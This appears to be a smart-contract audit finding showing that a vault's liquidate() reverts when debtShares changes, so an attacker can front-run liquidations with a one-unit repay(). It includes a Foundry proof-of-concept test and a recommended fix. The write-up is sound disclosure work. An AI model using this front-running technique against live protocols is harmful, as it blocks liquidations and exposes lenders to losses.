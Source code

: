 # Liquidation DoS through dust repayments

## Summary
An attacker by front-running any `liquidate()` call can prevent successful liquidation by making it revert. 
By preventing liquidations the gains of the protocol can be diminished using relatively low cost, 
especially during volatile price movements.

## Vulnerability Detail
The problem lies in the following condition inside the `liquidate()` function in the `V3Vault.sol`:

```solidity
uint256 debtShares = loans[params.tokenId].debtShares;
        if (debtShares != params.debtShares) {
            revert DebtChanged();
        }
```

The `liquidate()` function requires that the caller puts the exact amount of debt that he intends to liquidate, 
that amount must equal the actual debt of a loan. An attacker can front-run the `liquidate()` transaction with a `repay()` 
and repay minimum amount of assets so that at least `debtShares` is reduced by 1.

## Proof of Conecpt
A test to see the behaviour:
```solidity
    function testLiquidationFrontRun() external {
        address FRONT_RUNNER = 0xF977814e90Da44bfa03b6295a0616A897441bAcA;

        vm.prank(WHALE_ACCOUNT);
        USDC.transfer(FRONT_RUNNER, 1000);

        // approve front runner to vault for repay()
        vm.prank(FRONT_RUNNER);
        USDC.approve(address(vault), 100);

        _setupBasicLoan(true);

        // wait 7 days for interest to grow
        vm.warp(block.timestamp + 7 days);

        (,,, uint256 liquidationCost,) = vault.loanInfo(TEST_NFT);
        (uint256 debtShares) = vault.loans(TEST_NFT);
        vm.prank(WHALE_ACCOUNT);
        USDC.approve(address(vault), liquidationCost);

        vm.prank(FRONT_RUNNER);
        vault.repay(TEST_NFT, 1, true);

        vm.expectRevert(IErrors.DebtChanged.selector);
        vm.prank(WHALE_ACCOUNT);
        vault.liquidate(IVault.LiquidateParams(TEST_NFT, debtShares, 0, 0, WHALE_ACCOUNT, ""));
    }
```

## Recommended Mitigation Steps
Recommendation is to remove the above condition completely and the debtShares from LiquidateParams. 
Liquidation should always liquidate the entire available debt.